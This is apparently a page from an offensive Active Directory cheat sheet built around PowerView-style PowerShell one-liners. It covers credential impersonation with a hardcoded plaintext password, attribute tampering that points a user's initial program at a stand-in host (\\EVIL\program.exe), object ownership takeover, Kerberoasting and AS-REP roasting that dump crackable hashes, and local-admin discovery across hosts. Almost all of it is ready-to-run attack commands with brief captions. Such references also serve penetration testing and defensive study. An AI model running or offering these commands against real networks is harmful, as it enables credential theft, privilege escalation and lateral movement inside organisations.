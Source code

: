 User impersonation helpers (STA)
- Temporarily impersonate a different credential (runas /netonly-like).
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force; $Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a',$SecPassword); Invoke-UserImpersonation -Credential $Cred
```
- Revert impersonation back to self.
```
Invoke-RevertToSelf
```

Object outliers, setters, ownership
- Detect outlier properties across computer objects.
```
Get-DomainComputer -FindOne | Find-DomainObjectPropertyOutlier
```
- Set arbitrary attributes on an AD object.
```
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```
- Take or set ownership of an AD object.
```
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```

Kerberoasting and AS-REP roast
- Kerberoast using defaults (prints TGS hashes).
```
Invoke-Kerberoast
```
- Kerberoast a specific account, Hashcat format.
```
Invoke-Kerberoast -Identity "svc_sql" -OutputFormat Hashcat
```
- Kerberoast scoped to a specific OU/SearchBase.
```
Invoke-Kerberoast -SearchBase "LDAP://OU=secret,DC=testlab,DC=local" -OutputFormat Hashcat
```
- List AS-REP roastable users (no preauth).
```
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname
```
- Request AS-REP roast for a specific user.
```
Invoke-ASREPRoast -UserName jdoe -Verbose
```

Local admin reachability
- Threaded probe to find where you’re local admin (SMB/RPC).
```
Find-LocalAdminAccess
```
- Test admin access to a single host.
```
Test-AdminAccess -ComputerName WS01
```
